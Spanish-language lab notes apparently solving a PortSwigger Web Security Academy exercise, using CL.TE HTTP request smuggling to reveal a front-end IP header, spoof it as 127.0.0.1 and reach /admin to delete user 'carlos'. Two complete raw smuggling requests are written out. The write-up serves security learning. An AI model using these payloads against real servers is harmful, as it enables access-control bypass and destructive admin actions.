 En esta clase aprendemos a aprovechar una vulnerabilidad de HTTP request smuggling para identificar cabeceras que el servidor front-end añade a las peticiones entrantes. Estas cabeceras pueden determinar el acceso a zonas restringidas, como el panel de administración.

Primero, utilizamos un ataque de tipo CL.TE para inyectar una petición secundaria y observar cómo el front-end reescribe el tráfico. Al examinar la respuesta del back-end, logramos identificar la cabecera que transporta la IP del cliente. Luego, reproducimos el ataque incluyendo esta cabecera manualmente con el valor 127.0.0.1, lo que nos permite acceder al panel /admin.

Finalmente, modificamos la petición smuggled para apuntar a ‘**/admin/delete?username=carlos**‘, logrando así eliminar al usuario objetivo y resolver el laboratorio.

Solucion
en este caso vamos a interceptar el input que ponemos en la parte principal de la pagina esto se hace poniendo cual quiercosa en la barra de busquedad
![[Pasted image 20250807210951.png]]
lo interceptamos esta ves solo ponemos el http1.1
Entonces lo primero seria poner esta peticion para poder sacar una cabecera que es la que nos llevara a /admin
(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 56

Transfer-Encoding: chunked



0



POST / HTTP/1.1

Content-Length: 200



search=test)
y esto se veria asi
![[Pasted image 20250807213247.png]]
Y si nosotros no podemos ver la cabecera como en forma de error en el render solamente actualizamos la pagina principal para pdoer visualizarlo
![[Pasted image 20250807213343.png]]
y ya al final lo adaptmaos a nuestro payload final
doble send y con esto terminamos
![[Pasted image 20250807213709.png]]
Payload(POST / HTTP/1.1

Host: 0a5e007e041839cb80d0534500f30052.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 106

Transfer-Encoding: chunked



0



GET /admin/delete?username=carlos HTTP/1.1

X-ppcVGN-Ip: 127.0.0.1

Content-Length: 13



search=test)